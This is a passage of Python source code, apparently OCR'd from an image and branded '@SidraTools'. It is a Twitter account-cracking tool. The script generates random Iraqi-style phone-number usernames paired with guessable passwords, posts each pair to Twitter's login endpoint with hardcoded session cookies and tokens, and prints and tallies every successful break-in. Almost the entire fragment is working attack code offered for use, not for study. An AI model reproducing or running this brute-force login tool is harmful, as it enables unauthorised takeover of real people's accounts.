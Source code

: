 				with open(".txt", "a") as Sidr:
					Sidr.write(str(ko)+"\n")
				ma=random.randint(1000000, 9999999)
				zki=("+964751"+str(ma)+":0751"+str(ma))
				with open(".txt", "a") as Sidr:
					Sidr.write(str(zki)+"\n")
		Combo()
		fil=".txt"
		file=open(fil,"r").read().splitlines()
		for line in file:
			user=line.split(':')[0]
			pw=line.split(':')[1]
			timee = time.asctime()
			Sidraok = ("👩‍💻➥ • ᴛᴡɪᴛᴛᴇʀ ᴀᴄᴄᴏᴜɴᴛ ✓\n. — — — — —  — — — — — . \n📩 ➥• ᴇᴍᴀɪʟ : "+str(user)+"\n📟 ➥• ᴘᴀѕѕᴡᴏʀᴅ : "+str(pw)+"\n⏱ ➥• ᴛɪᴍᴇ : "+str(timee)+"\n. — — — — —  — — — — — . \n👩‍💻➥• @SidraTools")
			headers={
		    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
		    'Accept-Encoding': 'gzip, deflate, br',
		    'Accept-Language': 'ar,en-US;q=0.7,en;q=0.3',
		    'Content-Length': '901',
		    'Content-Type': 'application/x-www-form-urlencoded',
		    'Cookie': 'personalization_id="v1_aFGvGiam7jnp1ks4ml5SUg=="; guest_id=v1%3A161776685629025416; gt=1379640315083112449; ct0=de4b75112a3f496676a1b2eb0c95ef65; _twitter_sess=BAh7CSIKZmxhc2hJQzonQWN0aW9uQ29udHJvbGxlcjo6Rmxhc2g6OkZsYXNo%250ASGFzaHsABjoKQHVzZWR7ADoPY3JlYXRlZF9hdGwrCIA8a6p4AToMY3NyZl9p%250AZCIlM2RlMDA1MzYyNmJiMGQwYzQ1OGU2MjFhODY5ZGU5N2Y6B2lkIiU4ODM0%250AMjM5OTNlYjg0ZGExNzRiYTEwMWE0M2ZhYTM0Mw%253D%253D--f5b0bce9df3870f1a221ae914e684fbdc533d03d; external_referer=padhuUp37zjgzgv1mFWxJ12Ozwit7owX|0|8e8t2xd8A2w%3D; _mb_tk=10908ac0975311eb868c135992f7d397',
		    'Host': 'twitter.com',
		   'Origin': 'https://twitter.com',
		   'Referer': 'https://twitter.com/login?lang=ar',
		   'TE': 'Trailers',
		   'Upgrade-Insecure-Requests': '1',
		   'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0', }
			data={
		    'redirect_after_login': '/',
		    'remember_me': '1',
		    'authenticity_token': '10908ac0975311eb868c135992f7d397',
		    'wfa': '1',
		   'ui_metrics': '{\"rf\":{\"ab4c9cdc2d5d097a5b2ccee53072aff6d2b5b13f71cef1a233ff378523d85df3\":1,\"a51091a0c1e2864360d289e822acd0aa011b3c4cabba8a9bb010341e5f31c2d2\":84,\"a8d0bb821f997487272cd2b3121307ff1e2e13576a153c3ba61aab86c3064650\":-1,\"aecae417e3f9939c1163cbe2bde001c0484c0aa326b8aa3d2143e3a5038a00f9\":84},\"s\":\"MwhiG0C4XblDIuWnq4rc5-Ua8dvIM0Z5pOdEjuEZhWsl90uNoC_UbskKKH7nds_Qdv8yCm9Np0hTMJEaLH8ngeOQc5G9TA0q__LH7_UyHq8ZpV2ZyoY7FLtB-1-Vcv6gKo40yLb4XslpzJwMsnkzFlB8YYFRhf6crKeuqMC-86h3xytWcTuX9Hvk7f5xBWleKfUBkUTzQTwfq4PFpzm2CCyVNWfs-dmsED7ofFV6fRZjsYoqYbvPn7XhWO1Ixf11Xn5njCWtMZOoOExZNkU-9CGJjW_ywDxzs6Q-VZdXGqqS7cjOzD5TdDhAbzCWScfhqXpFQKmWnxbdNEgQ871dhAAAAXiqazyE\"}',
		   'session[username_or_email]': user,
		   'session[password]': pw}
			
			try:
				req=requests.post(f'https://twitter.com/sessions',headers=headers,data=data)
				time.sleep(0.5)
				if ("ct0") in req.cookies:
					os.system('clear')
					print(Tk)
					ok+=1
					sk+=1
					print(A+"("+E+user+A+")"+H+" : "+A+"("+E+pw+A+")")
					print(A+"-----------------------------------")
					print("{}({}-{}){}  Test {} : {}30000".format(A,H,A,B,A,H))
					print("{}({}-{}){}  Good {} : {}{}".format(A,E,A,E,A,E,str(ok)))
					print("{}({}-{}){}  Baad {} : {}{}".format(A,K,A,K,A,K,str(cp)))
					print(A+"-----------------------------------")
					print(H+"Telegram  "+A+" : "+E+"@SidraTools")
					